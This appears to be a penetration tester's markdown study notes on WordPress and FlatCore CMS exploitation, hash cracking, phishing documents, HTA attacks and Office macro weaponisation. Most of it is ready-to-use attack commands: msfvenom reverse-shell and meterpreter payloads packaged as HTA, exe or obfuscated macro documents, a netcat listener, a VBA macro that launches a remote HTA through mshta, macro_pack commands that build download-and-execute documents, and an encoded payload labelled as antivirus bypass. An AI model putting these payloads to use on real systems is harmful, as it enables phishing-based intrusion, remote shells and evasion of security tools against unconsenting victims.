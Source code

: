 ### Wordpress 6.1

- Use module `use auxiliary/scanner/http/wordpress_scanner` for scanning vuln plugin
- The specific version of Duplicator plugin have a vuln to read a file. Use `msf` module to exploit

### Httpd Apache - FlatCore CMS

The version 2.0.7 have server side vuln [Exploit-50262](https://www.exploit-db.com/exploits/50262)
- Download and run with python3 (Must have creds)

## Note
- `netstat -antp` Check open port on host
- Doesn't know what type of hash: `hash-identifier <hash>`
- Cracking `Des(Unix)` - `john --format=descrypt hash.txt`

### Pretext Phishing document

Resource:
- [Office phish template](https://github.com/martinsohn/Office-phish-templates)

### HTML Application

Application using HTML, CSS, JS to build, run in a special environment provide by Browser(IE, Edge)
- Can run independent on Windows
- IE (Internet Explorer) automatic execute HTML app with `mshta.exe` 
  - Always executed with security context of the current user.
  - HTA can have access to the local filesystem, registry and can execute ActiveX controls.
  - Allow HTA to run outside the constrains of the web browser
- The attack vector is typically classified as a Drive by Compromise technique
- They can be use for persistence and evasion

Simple HTA app

```html
<html>
    <head>
        <script>
            var payload = 'calc.exe'
            new ActiveXObject('Wscript.Shell').Run(payload)
        </script>
    </head>
    <body>
        <h1> HTA POC</h1>
        <script>
            self.close()
        </script>
    </body>
</html>
```

**Attack**:
- Generate hta payload `msfvenom -p windows/shell_reverse_tcp LHOST=<Host_ip> LPORT=4444 -f hta-psh -o shell.hta
- Set up listener `nc -nvlp 4444`
- Run the hta app on victim machine
  - Or we can create a marco to download the app and automatic open it

```vb
Sub ExecuteHTA()
    Dim url As String
    Dim command As String

    url = "URL_TO_HTA"
    command = "mshta.exe " & url

    Shell command, vbNormalFocus
End Sub
```

### Automating Marco development with MarcoPack

[Marco Pack](https://github.com/sevagas/macro_pack)

- Have obfuscate feature
- Support a lot of format

How to use:
- `marco_pack --list-formats` List supported format
- `echo "calc.exe" | marco_pack.exe -t CMD -o -G "test.doc"` Create marco open calc.exe in the `test.doc` file
  - `-o` Obfuscate
- `--list-templates` List all template of payload

Create payload with msfvenom
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 | .\marco_pack.exe -o -G "resume.doc"` Direct inject payload to marco of file
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 -f exe > payload.exe` -> Host the payload
  - `echo "http:\\Host_ip\payload.exe" "payload.exe" | .\marco_pack.exe -o -G "sheet.xls"` -> Generate the document to download payload and execute it

### Bypass AV

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 > rTCPenc.exe`

### Grep

`grep -nr "password"` Looking for keyword.

### Download file from windows

`iwr -UseBasicParsing -Uri http://10.10.31.2/program.exe -OutFile ‘C:\Users\student\Desktop\tool\program.exe’`
